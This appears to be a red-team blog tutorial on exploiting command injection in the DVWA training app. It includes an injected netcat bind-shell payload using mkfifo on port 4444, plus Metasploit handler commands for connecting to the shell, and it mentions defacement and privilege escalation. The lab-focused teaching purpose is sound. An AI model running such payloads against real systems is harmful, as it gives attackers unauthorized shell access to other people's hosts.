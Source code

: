 ```yaml
---
layout: post
section-type: post
title: Exploiting Command Injection vulnerabilities
category: tech
tags: [ 'redteam', 'kali', 'dvwa' ]
---
```

Command Injection is the manipulation of a vulnerable software in order to execute arbitrary commands on the host operating system.
Command Injections are possible when the vulnerable application skips the input validation before executing a shell command on the host operating system.
We'll get our hands on DVWA's Command Injection section, and then we'll spawn a backdoor on the host, using [Metasploit](https://www.metasploit.com/).

Visit the *Command Injection* section of DVWA.

![ci-0](/img/posts/ci/ci-0.png)

It says that it will ping a device for, so let's see what will do for the IP *127.0.0.1*:

![ci-1](/img/posts/ci/ci-1.png)

Now, let's try to append a list bash command after our input IP address:

![ci-2](/img/posts/ci/ci-2.png)

Sweet, DVWA simply appends our input in the underlying bash command!

Now, let's listen on port 4444 and redirect all the incoming bytes to a bash shell:

<pre><code data-trim class="bash">
127.0.0.1; mkfifo /tmp/pipe ; sh /tmp/pipe | nc -l -p 4444 > /tmp/pipe
</code></pre>

![ci-3](/img/posts/ci/ci-3.png)

As you noticed the page is loading forever, so our backdoor is open and waiting for us :smile:

Let's start metasploit and open the shell on the server:

<pre><code data-trim class="bash">
⁠⁠⁠msfconsole
use exploit/multi/handler
set payload linux/x64/shell
set payload linux/x64/shell/bind_tcp
set RHOST 127.0.0.1
</code></pre>

![ci-4](/img/posts/ci/ci-4.png)

Note that we didn't set the LPORT of bind_tcp, since the default one is 4444.

As you notice we are the www-data user, and that's why we can't read the /etc/shadow file.
But we have all the privileges that www-data user has, and that's enough for defacing DVWA, or exploiting a local privilege escalation vulnerability on the server in order to get root priviledges.

Happy TCP binding!
